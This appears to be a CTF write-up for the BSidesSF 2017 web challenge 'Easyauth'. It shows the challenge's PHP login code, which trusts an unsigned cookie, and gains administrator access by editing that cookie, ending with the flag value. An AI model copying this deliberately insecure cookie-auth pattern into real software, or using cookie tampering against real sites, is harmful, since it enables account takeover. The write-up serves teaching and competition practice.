Challenge: Easyauth 
----------------------------------------
Category: Web 
----------------------------------------
30 points 
----------------------------------------

```
Description:

Can you gain admin access to this site?
http://easyauth-afee0e67.ctf.bsidessf.net

file: easyauth.php

```

``` php

<?php
  require_once('./auth.php');

  if(isset($_GET['action']) && $_GET['action'] === 'logout') {
    setcookie('auth', '');
    header('Location: index.php');
    exit(0);
  }

  if(isset($_POST['username'])) {
    # Do pagey stuff
    if(is_valid($_POST['username'], $_POST['password'])) {
      # Create the cookie
      $cookie = 'username=' . $_POST['username'] . '&';
      $cookie .= 'date=' . date(DATE_ISO8601) . '&';

      setcookie('auth', $cookie);
      print "<h1>Login successful!</h1>\n";
      print "<p>Setting cookie: <tt>auth=$cookie</tt></p>\n";
    } else {
      print "<h1>Username or password was incorrect!</h1>\n";
    }
    print "<p>Click <a href='index.php'>here</a> to continue!</p>\n";
    exit(0);
  }

  if(!isset($_COOKIE['auth'])) {
    require_once('./login_form.php');
    exit(0);
  }
  $cookie = $_COOKIE['auth'];

  $pairs = explode('&', $cookie);
  $args = array();
  foreach($pairs as $pair) {
    if(!strpos($pair, '='))
      continue;

    list($name, $value) = explode('=', $pair, 2);
    $args[$name] = $value;
  }
  $username = $args['username'];

  print "<h1>Welcome back, $username!</h1>\n";
  if($username == 'administrator') {
    print "<p>Congratulations, you're the administrator! Here's your reward:</p>\n";
    print "<p>" . FLAG . "</p>\n";
  } else {
    print "<p>It's cool that you logged in, but unfortunately we can only give the flag to 'administrator'. :(</p>\n";
  }
  print "<p><a href='/index.php?action=logout'>Log out</a></p>\n";
?>
```
We know now that we need to log in as administrator !!!
Connect to site.

<img src="./../files/site.png">

```
Hint: Try guest/guest
We connect to site with credentials guest:guest

```

<img src="./../files/guest.png">

We see the cookie appear.
I modify it with the plugin Cookie+ Manager de Firefox. Knowing that we have to be logged into administrator.


```
Host:                 easyauth-afee0e67.ctf.bsidessf.net
Name:                 auth
Path:                 /
Content:              username%3Dadministrator%26date%3D2017-02-13T08%3A35%3A43%2B0000%26
Content raw:          username%3Dadministrator%26date%3D2017-02-13T08%3A35%3A43%2B0000%26
Expires:              À la fin de la session
Expires raw:          0
Send for:             Tout type de connexion
Send for raw:         false
Created:              Monday, February 13, 2017 9:34:50 AM
Created raw:          1486974889695000
Last accessed:        Monday, February 13, 2017 9:35:29 AM
Last accessed raw:    1486974929269000
HTTP only:            No
HTTP only raw:        false
This domain only:     No
This domain only raw: false
Policy:               no information available
Policy raw:           0
Status:               no information available
Status raw:           0
---
```

Then reload the page by logging in as administrator.

<img src="./../files/admin.png">

```
FLAG:0076ecde2daae415d7e5ccc7db909e7e
```

